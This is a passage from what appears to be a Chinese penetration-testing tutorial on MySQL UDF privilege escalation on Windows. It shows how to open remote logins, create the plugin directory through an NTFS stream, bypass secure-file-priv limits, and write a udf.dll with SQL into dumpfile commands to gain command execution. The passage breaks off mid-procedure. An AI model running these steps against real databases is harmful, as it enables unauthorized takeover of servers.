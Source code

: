 修改 user 表 host 字段为 %，表示允许任意地址登录 MySQL，开启外链接成功  

------------------------------------------------

```
win 2000: C:\\Winnt\\udf.dll    
win 2003: C:\\Windows\\udf.dll
```

开外联前  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjjejRNwyNZ2N8yic7tialeQaR3wEd5xRhNyPicXNFVYMHzBkkdD7V2pZVQ/640?wx_fmt=png)  

开外联后

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0Tj5Vc4Pe6lNmrAXiasUFrQAntEsFUJYDmHUOQGLZCAONpNwZNCgiatwpZw/640?wx_fmt=png)  

**三、UDF 提权**
------------

3.1 UDF 提权原理**：**udf(Userdefined function) 是用户自定义函数简写。通过 root 权限将文件 udf.dll 导出到系统目录下，可以通过 udf.dll 创建执行系统命令的函数来调用执行 cmd。现在基本上 windows 的服务器是以下两个路径导出 UDF.DLL  

```
#NTFS流创建plugin目录
select 'x' into dumpfile 'C:/Program Files/MySQL/MySQL Server 5.1/lib/plugin::INDEX\_ALLOCATION';
```

在 MySQL 高版本中 secure-file-priv 参数限制了 MySQL 的导出；  
① NULL，表示禁止  
② 如果 value 值有文件夹目录，则表示只允许该目录下文件（子目录都不行）  
③ 如果为空 (没有值)，则表示不限制目录  
MySQL5.0/5.6 版本：my.ini 中无此参数，查询该参数情况为空，不限制目录:  
MySQL5.7 版本：my.ini 中存在参数，查询该参数情况为 NULL，不允许导出:  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjKXDns1ibDwibyczq1rRok1NoicibZNcnF5IJ1Hne6BjkSBB2QzeWyQ1ccQ/640?wx_fmt=png)

**3.2. 提权**

**①** 创建 plugin 目录：

MySQL 5.1 以上版本需要导出到 mysql 安装目录 / lib/plugin/，5.1 以下直接安装在 c:/windows 目录下，如果 5.1 以上没有 plugin 目录，需要手工创建或者通过 NTFS 流创建目录：

```
select load\_file('d:\\\\wwwrooot\\\\network\\\\lib\_mysqludf\_sys\_64.dll') into dumpfile "D:\\\\MySQL\\\\mysql-5.7.21-winx64\\\\mysql-5.7.21-winx64\\\\lib\\\\plugin\\\\udf.dll";
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0Tj7m8wbiae8WUvkP560HLa0OfDdEIQveJQyoRkj7u0boibeVWOL0yaXvmQ/640?wx_fmt=png)  

查看 plugin 目录：select @@plugin\_dir;

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0Tjvnc4R1MZEQQxicJSRmhnngQicvjsx5JibNyaHhA5AjvvGEriaSaGaNrfaA/640?wx_fmt=png)  

  
②导出 udf，如果脚本没法导出 udf 文件，也可以手动将该文件复制到 plugin 文件夹下（创建 plugin 目录、复制粘贴 udf 文件都需要一定的权限)

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjW4ebCRkyW69BAhIxRDsTBhb7foH9tJzeR9NxmxG5OibUqA2Grc8vc8w/640?wx_fmt=png)
